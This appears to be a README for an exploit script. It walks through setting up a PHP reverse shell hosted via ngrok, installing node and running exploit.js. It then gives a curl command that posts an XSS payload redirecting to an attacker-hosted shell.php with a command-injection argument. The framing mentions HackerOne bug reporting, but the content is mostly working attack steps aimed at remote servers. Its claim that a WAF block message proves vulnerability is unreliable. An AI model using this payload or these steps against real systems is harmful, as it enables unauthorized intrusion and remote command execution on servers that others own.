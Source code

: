 In order to use this test file, please follow the instructions below:

First, you'll need to create a php reverse shell payload and tunnel this through ngrok. You'll require a secondary server or to use ngrok to host the file that will be uploaded to the remote server as well. Once you have this ready then you can proceed (or you can use the reverse shell code from my GitHub) 

Dependencies required are npm and node.js

sudo su
apt-get update
apt-get install nodejs
apt-get install npm

Once done. Clone the repository and follow these commands:

npm init -y
npm install http

Finally, run the exploit using this command:

node exploit.js

Done.

Please note that if you receive any errors such as 301 Permanently Moved by CloudFlare then it's obviously CloudFlare that's blocking the endpoint from receiving the request. Nonetheless, this test will work in other ways.

To check if a WAF is responsible for the 301 Permanently Moved, confirm with a curl command: 

curl -X POST -H "Content-Type: application/json" -d '{"device_id":"<img src=x onerror=\"window.location='http://[SECONDARY HOST OF THE REVERSE SHELL OR NGROK CONTAINING THE PAYLOAD TO EXECUTE TO REMOTE SERVER]/shell.php?cmd=$(whoami)'\">"}' https://[HOSTNAME OF THE VULNERABLE ENDPOINT]/[VULNERABLE ENDPOINT]

If you receive an error from the WAF saying that the request was blocked due to the execution of an arbitrary code such as SQL then the target is vulnerable and you can report it to HackerOne.
